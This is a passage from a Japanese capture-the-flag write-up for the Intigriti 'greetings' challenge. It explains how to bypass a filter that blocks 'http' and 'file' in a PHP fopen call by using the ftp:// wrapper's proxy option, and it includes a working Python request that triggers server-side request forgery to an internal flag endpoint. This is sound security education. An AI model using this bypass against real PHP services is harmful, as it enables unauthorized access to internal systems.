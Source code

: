 ```python:flask/app.py

            if($resp)
            {
                $content = stream_get_contents($resp);
                echo "<div class='greeting-output'>" . htmlspecialchars($content) . "</div>";
                fclose($resp);
            }
            else
            {
                throw new Exception("Unable to connect to the service.");
            }
        } catch (Exception $e) {
            error_log("Error: " . $e->getMessage());
            echo "<div class='greeting-output error'>Something went wrong!</div>";
        }
    }
}
?>
```

`@fopen("$protocol://127.0.0.1:3000/$name", 'r', false, $context);`という形式でリクエストを行うが、`$protocol`と`$context`に`http`や`file`という文字列を含めてはならない、という制約がある。

`http`も`https`も使えないので、[サポートするプロトコル](https://www.php.net/manual/ja/wrappers.php)の一覧を調べ、代用できそうなプロトコルを探す。

`ftp://`の[コンテキストオプション](https://www.php.net/manual/ja/context.ftp.php)を読んでいたら、`proxy`オプションを利用することで、HTTPプロキシを経由したリクエストが可能であることがわかった。
> proxy string
FTP リクエストを、http プロキシサーバー経由で行う。 ファイルの読み込み操作にのみ適用される。 例: tcp://squid.example.com:8000

次のようなリクエストを送ってみると
```python
import json
import html
import requests

URL = "https://greetings.ctf.intigriti.io/"

s = requests.session()

data = {
    "name": "sss",
    "protocol": "ftp://127.0.0.1:5000/flag?x=",
    "options": json.dumps({
        "ftp": {
            "proxy": "tcp://127.0.0.1:5000",
        },
    }),
    "hello": ""
}
r = s.post(URL, data=data)
print(r.status_code)
print(html.unescape(r.text))
```
